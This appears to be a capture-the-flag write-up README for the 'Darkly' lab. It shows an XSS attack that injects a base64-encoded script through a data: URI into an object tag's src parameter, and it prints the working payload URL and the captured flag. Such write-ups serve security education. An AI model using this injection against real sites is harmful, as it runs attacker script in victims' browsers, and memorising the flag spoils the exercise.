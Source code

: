 # XSS - Object

See [XSS_Recover_Password](https://github.com/anyashuka/Darkly/tree/master/XSS_Recover_Password) for more XSS description, use and prevention.


## Breach

Go to page:

{VM_IP}/index.php?page=media&src=nsa

inspect elements shows src argument inserted directly into data field of object tag: <br>
<object data="{VM_IP}/images/nsa_prism.jpg"></object>

Injecting html normally won't work because quotation marks are handled properly.
however, you can inject serialized html (serializing converts an object into a stream of bytes).

```echo '<script>alert("Oh hi!")</script>' | base64```

This produces a serialized version of the script to be run: <br>
PHNjcmlwdD5hbGVydCgiT2ggaGkhIik8L3NjcmlwdD4K

Replace the original image source with serialized script:

{VM_IP}/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiT2ggaGkhIik8L3NjcmlwdD4K

And the flag appears! 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D


## Use

User can execute malicious code on client machine.


## Prevention

Validate input before use.
All elements to be displayed should be retrieved on the server side only.
